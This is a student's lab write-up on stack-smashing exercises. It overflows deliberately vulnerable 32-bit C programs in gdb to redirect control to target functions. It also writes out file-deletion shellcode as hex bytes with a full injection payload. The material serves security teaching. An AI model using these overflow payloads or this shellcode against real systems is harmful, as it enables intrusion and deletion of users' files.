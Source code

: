 Link to file : https://github.com/hoag142/myprojects/blob/patch-1/Sample.md
# 22110029, Trần Huy Hoàng
# lab 1 Stack smashing
## task 1
### bof1
*execute buffer overflow*  
![image](https://github.com/quang-ute/myprojects/assets/152377486/7758e4c8-2478-46e6-a6ba-9f3f07aa2a8c)



Code to run the container contain the lab



![image](https://github.com/hoag142/myprojects/assets/152377486/f05ef518-7866-48e1-a132-7992cad71d21)



We need to insert the address of the secretFunc into the eip.
 ![image](https://github.com/hoag142/myprojects/assets/152377486/d552dced-7992-4839-98eb-241788459483)


- Step 1 : Build the c program with `gcc -g bof1.c -o bof1.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`

  
`-fno-stack-protector` : Turn off the compiler's stack smashing check option


`-mpreferred-stack-boundary=2` : set boundary euqal 2 to make gdb look more clear

 - Step 2 : run gdb to find the address of secretFunc(), run this code first `gdb bof1.out` and do this `disas secretFunc`

   
![image](https://github.com/hoag142/myprojects/assets/152377486/2096a6f9-fa70-4b2b-8b95-98dd8e0eba5a)


we can see the address of secretFunc at the first line `0x0804846b`

- Step 3 : Filling full buffer with random char and insert the function address

![image](https://github.com/hoag142/myprojects/assets/152377486/03258068-9579-4265-8288-9cd5bf3ff75d)


You can see that i fill buffer with 204 char `a`(why 204 because to fill the buffer we need 200 byte and more 4 byte to fill the ebp) and insert address with little-endian type `/x6b/x84/x04/x08`
And i success with the line `Congratulation!`

### bof 2

![image](https://github.com/hoag142/myprojects/assets/152377486/61063590-0160-40c1-b29f-6a754e6f91a0)

I do the similar at bof1 to the *step 1*

![image](https://github.com/hoag142/myprojects/assets/152377486/da76259b-0a82-400b-92cc-3925ed298f15)


But now we have buffer in main 

![image](https://github.com/hoag142/myprojects/assets/152377486/2937917d-e43c-4c80-9143-6a4e106518c3)

'check' : If `check` is not `0x04030201` and not `0xdeadbeef`, print the message `You are on the right way!`.
If the `check` is equal to `0xdeadbeef`, print `Yeah! You win!`.

- Enter data longer than 40 bytes to overwrite the `check` memory area
  
- If we enter 45 bytes, we can overwrite the `check` variable, changing its value.
  
- For example, if we enter a string longer than 40 bytes that starts at the appropriate position, we can overwrite the value `0xdeadbeef` in the check variable, resulting in the program printing `Yeah! You win!`.

  ![image](https://github.com/hoag142/myprojects/assets/152377486/178f8596-fbdb-46fa-b58b-4dd1c58c6d7b)

I enter the value `0xdeadbeef` as little-endian type.

  ![image](https://github.com/hoag142/myprojects/assets/152377486/2b641368-1528-4b1a-9f63-a803bdf4a32e)

And i success execute the buffer overflow
### bof3

The memory stack is arranged as follows in a 32 bit system
  
the frame of this code
*we can easy see that*
- buf  `[128 byte]`
- func `[4 byte]`
  
If we enter 120 `A` characters and do not overflow buf memory, the func function pointer will be assigned to the `sup()` function and print `congrat`

![image](https://github.com/hoag142/myprojects/assets/152377486/1c6f265d-f20b-4353-9994-f478f388a161)



And if we overflow buf memory and fill full `var` with random char but not fill the `func` with random char too, the `sup()` func will cannot execute again, and will show the error `segmentaion fault`

![image](https://github.com/hoag142/myprojects/assets/152377486/cb4a53cd-a91b-489d-8f88-0c7a3ae3c758)



- If we want to the `shell()` func execute we need to insert the address of shell function in func pointer

First we run gdb to find the address of shell(), run this code first `gdb bof3.out` and do this `disas shell`

![image](https://github.com/hoag142/myprojects/assets/152377486/504869cd-612a-4c88-af7c-f535b59047c8)

we can see `shell()` : `0x0804845b`

Because, buf  `[128 byte]` . So, the offset to func is 128 bytes.
And insert this address to func pointer with payload is 128 char `a` and `0x0804845b` address

![image](https://github.com/hoag142/myprojects/assets/152377486/6e185975-44b7-4ac8-8e40-716cee7d76c0)


## task 2
### 2.1 preparing shell code
 Creting `file_del.asm`
 
![image](https://github.com/hoag142/myprojects/assets/152377486/ee682e6d-618e-4e43-a3fc-798339f45814)

Write shellcode program in assembly language (file_del.asm), compile with nasm (file_del.o) then link with ld to generate executable file (file_del)

![image](https://github.com/hoag142/myprojects/assets/152377486/6fc401a0-8a30-480a-aa66-a3c7a263ca57)
![image](https://github.com/hoag142/myprojects/assets/152377486/69a47839-5ffc-4229-a63d-c6c425e775f3)
![image](https://github.com/hoag142/myprojects/assets/152377486/4810a46e-19c8-4075-ac08-4199329d7ffc)

### 2.2 Preparing the payload

![image](https://github.com/hoag142/myprojects/assets/152377486/6fdb9204-263a-4f7a-8cec-0c90ff3a27fc)

Generate Hex String: `\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x9a\x00\x40\x00\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65`

buffer size : `64`


My payload would be : 'a' * 64 + `\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x9a\x00\x40\x00\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65` + `\xff\xff\xff\xff`


### 2.3 Code injection

![image](https://github.com/hoag142/myprojects/assets/152377486/2e2447a7-ff5f-488a-bdae-81eed4587996)

Run gdb

run `disas main` determine address after `strcpy`

![image](https://github.com/hoag142/myprojects/assets/152377486/adae13c3-46c4-400d-9c49-a8bcd99b262d)

breakpoint :`0x08048468`

set breakpoint `b *0x08048468`

![image](https://github.com/hoag142/myprojects/assets/152377486/093f9475-4e16-4638-bb7d-067a00495aa3)

Run with payload and Watch the stack memory from esp

![image](https://github.com/hoag142/myprojects/assets/152377486/bf2efe4c-07f2-4f79-afd0-b08407b12231)

This indicates that your shellcode begins at address `0xffffd708`.










